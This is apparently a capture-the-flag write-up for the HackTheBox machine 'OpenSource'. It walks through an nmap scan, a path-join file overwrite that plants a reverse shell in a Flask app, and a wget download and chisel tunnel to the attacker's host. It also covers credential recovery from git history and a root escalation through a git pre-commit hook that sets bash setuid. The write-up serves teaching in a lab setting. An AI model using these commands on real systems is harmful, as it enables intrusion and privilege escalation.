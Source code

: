 Hello and welcome to my next write up. This will be on Hackthebox box called opensource. 
Let's jump right into it.

First we will start nmap to see which ports are open. 

```
# nmap -T4 -sC -sV -p- 10.10.11.164        
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-10 08:33 EDT
Nmap scan report for 10.10.11.164 (10.10.11.164)
Host is up (0.061s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:59:05:7c:a9:58:c9:23:90:0f:75:23:82:3d:05:5f (RSA)
|   256 48:a8:53:e7:e0:08:aa:1d:96:86:52:bb:88:56:a0:b7 (ECDSA)
|_  256 02:1f:97:9e:3c:8e:7a:1c:7c:af:9d:5a:25:4b:b8:c8 (ED25519)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sat, 10 Sep 2022 12:34:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sat, 10 Sep 2022 12:34:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
|_http-title: upcloud - Upload files for Free!
3000/tcp filtered ppp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
------snip-------
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.85 seconds
```

There are two ports open it is 22 which is ssh and 80 which is http and port 3000 which is filtered. Not much we can do with the ssh as the version doesn't have any known vulnerabilities. So let's visit the web page. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_web.png?raw=true)

We see that there is download button we we're gonna download the source for the page. It's running python so we can take a guess that it 
will be flask application. As this is `.git` let's see which branches are there with the command `git branch`. There are two `dev` and 
`public`. We will switch to dev as it is more likely to leak more things because developers could forget to delete something before posting it online.
In flask web apps there is a `views.py` file which is best place to start looking at the code as it
is convenient because we can see the endpoints this app has. There are four 
routes defined for the app. We can see that there is upcloud endpoint with upload file functionality. The only function that is interesting
and not totally basic is `os.path.join` where we look up vulnerabilities for this function or just documentation we'll find out that
if we specify absolute path it will discard everything else and just use that. Also in `configuration.py` there is `DEBUG=True` so we can
visit endpoint `/uploads/whatever` there is debug page which leaks that the `views.py` is in `/app/app/views.py`

DEBUG IMAGE

Now the easiest way to get shell here is to upload our own malicious `views.py` file and create our own endpoint that will give us reverse shell.
We will use python reverse shell from great repo https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python . Just copy some other route and replace its contents with our shell.

CHANGED VIEWS IMAGE

We will need to catch the upload request in burpsuite to change the name of the file that we are uploading.
U can send the request to repeater and send it from there which is good if something failed or you can just send it from the proxy tab.

CHANGED REQUEST BURP IMAGE

We will set up netcat listener and on visiting http://10.10.11.164/rev or whatever name you defined the endpoint as it will give us reverse shell.
If we try to stabilize the shell it gives us error because there is no bash so let's just use `/bin/sh`

```
/app # ^[[1;8Rpython3 -c 'import pty;pty.spawn("/bin/sh")'
python3 -c 'import pty;pty.spawn("/bin/sh")'
/app # ^[[3;8R^Z
zsh: suspended  nc -lvnp 4242
                                                                                                                                                                                                                                             
┌──(root💀kali)-[~]
└─# stty raw -echo; fg                                                                                                                                                                                                             
[1]  + continued  nc -lvnp 4242

/app # 
```
If we use id it tells us that we are root but i didn't think it would be that easy. In `/` directory do `ls -la` and you will
see `.dockerenv` in there which means that we are in docker container. 

```
/ # ls -la
total 72
drwxr-xr-x    1 root     root          4096 Oct 19 19:46 .
drwxr-xr-x    1 root     root          4096 Oct 19 19:46 ..
-rwxr-xr-x    1 root     root             0 Oct 19 19:46 .dockerenv
--------------snip--------------
```

We remember that there is port 3000 which is filtered. Time to use chisel to create tunnel. We will download it from https://github.com/jpillora/chisel and start python server in the directory in which it is with `# python3 -m http.server 8000`. Then use `wget` in `/tmp` directory `/tmp # wget http://10.10.14.187:8000/chisel`. Now we will run it in server mode on our machine `# ./chisel -p 9001 --reverse` and as client on the 
opensource box `/tmp # ./chisel client localhost:8000 R:3000:172.17.0.1:3000` the ip adress we use here is the one from `ifconfig` 
command but ending with `1` because it is used as ip adress for gateway. Don't forget to do `chmod +x chisel` to make it executable.

There is gitea. There is a sign in but we don't have any credentials. But we have the `.git` we can try to look for credentials there.
`git log ` shows 4 commits. With `git show <commit id>` we will go one by one to see changes made in that commit. And in one of them 
there are credentials. 

GIT SHOW IMAGE

With that login and get in. If we look around we will find `.ssh` with id_rsa key. Now let's copy it into our machine and set rights with
`chmod 600 id_rsa` now we can login with ssh as dev01 and get our flag. `sudo -l` gives us nothing and Linpeas won't help us either. 
Let's try to transfer pspy from our machine to the box to see if there isn't something running that we didn't find. 
It shows us cronjob that is running every minute doing backup of dev01 home directory. We can use this to our advantage
and abuse git hooks. In dev01 home directory is `.git`. .sample files will be skipped. Easiest way is to change `/bin/bash`
to set uid so we can keep its root permission. And change the file permissions to be executable.

```
dev01@opensource:~/.git/hooks$ echo -e '#!/bin/sh\n chmod +s /bin/bash' > pre-commit
dev01@opensource:~/.git/hooks$ chmod +x pre-commit
```

```
dev01@opensource:~/.git/hooks$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr 18  2022 /bin/bash
dev01@opensource:~/.git/hooks$ ./bin/bash -p
-bash: ./bin/bash: No such file or directory
dev01@opensource:~/.git/hooks$ /bin/bash -p
bash-4.4# id
uid=1000(dev01) gid=1000(dev01) euid=0(root) egid=0(root) groups=0(root),1000(dev01)
```

After a minute bash becomes setuid and with `/bin/bash -p` we get root shell and can now read the root.txt and our job here 
is finished.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/THM-Corridor-Write-Up/images/flag.png?raw=true)

Thank you for reading this write up. If you have any suggestions, questions or just want to play CTFs with someone reach me out 
on Twitter or wherever else you can find me.
https://twitter.com/Vojtech1337
